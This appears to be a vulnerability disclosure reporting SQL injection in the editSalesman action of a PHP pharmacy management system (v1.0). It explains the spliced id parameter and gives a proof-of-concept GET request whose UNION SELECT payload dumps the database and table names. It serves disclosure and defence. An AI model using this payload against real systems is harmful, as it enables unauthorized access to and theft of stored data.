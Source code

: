 # pms SQL injection vulnerability

## NAME OF AFFECTED PRODUCT(S)

**pharmacy-management-system-in-php-with-source-code**

### Vendor Homepage

https://code-projects.org/pharmacy-management-system-in-php-with-source-code/

###  **Manufacturers sites:**

 https://code-projects.org/

## AFFECTED AND/OR FIXED VERSION(S)

### VERSION

-  v1.0

### Software Link

 https://download-media.code-projects.org/2020/10/Pharmacy_Management_System_In_PHP_With_Source_Code.zip

### **AFFECTED FUNCION**

editSalesman

## PROBLEM TYPE

### Vulnerability Type

- sql injection

### Root Cause

- editSalesman

  Int action of edit Salesman ,The id parameter is obtained and saved to Salesmanid, and the application statement is spliced, and there is a vulnerability in the application injection

  ![image-20240816210200985](pharmacy_Management_System SQL injection vulnerability.assets/image-20240816210200985.png)

## **Description of the vulnerability**

pharmacy_Management_System latest version has SQL injection via editSalesman, which can get information about the database and even GetShell via SQL injection

## **Vulnerability recurrence**

We need to set up this PMS website locally

Let's open the  /Index.php?id=allSalesman route

![image-20240723135616912](pharmacy_Management_System SQL injection vulnerability.assets/image-20240723135616912.png)



![image-20240723142715784](pharmacy_Management_System SQL injection vulnerability.assets/image-20240723142715784-1723812909090.png)

![image-20240723142737947](pharmacy_Management_System SQL injection vulnerability.assets/image-20240723142737947-1723812909090.png)

**POC**

```
GET /index.php?action=editSalesman&id=10}'+union+select+1,database(),(SELECT+GROUP_CONCAT(table_name)+FROM+information_schema.tables+WHERE+table_schema=database()),4,5,6,7,8+order+by+id+limit+0,1--+ HTTP/1.1
```

**Result**

![image-20240723142821268](pharmacy_Management_System SQL injection vulnerability.assets/image-20240723142821268-1723812909091.png)



## Discover

PingXinyao

